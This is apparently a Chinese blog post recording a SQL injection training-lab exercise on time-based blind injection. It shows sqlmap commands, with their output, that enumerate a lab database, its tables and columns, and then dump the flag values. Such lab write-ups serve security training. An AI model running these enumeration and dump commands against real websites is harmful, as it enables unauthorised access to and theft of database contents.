 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 - 时间盲注
categories: [安全, SQL注入]
description: 掌控安全 SQL 注入靶场练习 - 时间盲注
keywords: SQL注入, SQLMAP
---
```


# 掌控安全 SQL 注入靶场练习 - 时间盲注

SQL 时间盲注

## 0x01 使用 SQLMAP 工具

### 0x01.1 dump database

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 --current-db
```

**执行结果**

```
current database: 'kanwolongxia'
```

### 0x01.2 dump tables

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 -D kanwolongxia --tables

```

**执行结果**

```
Database: kanwolongxia
[3 tables]
+--------+
| user   |
| loflag |
| news   |
+--------+
```

> 3 tables: user, loflag, news

### 0x01.3 dump columns

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag --columns
```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flaglo | varchar(255) |
| Id     | int(11)      |
+--------+--------------+
```

### 0x01.4 dump values

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag -C flaglo --dump

```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[5 entries]
+----------------+
| flaglo         |
+----------------+
| zKaQ-Moren     |
| zKaQ-QQQ       |
| zKaQ-RD        |
| zKaQ-time-hj   |
| zKaQ-time-zxxz |
+----------------+
```
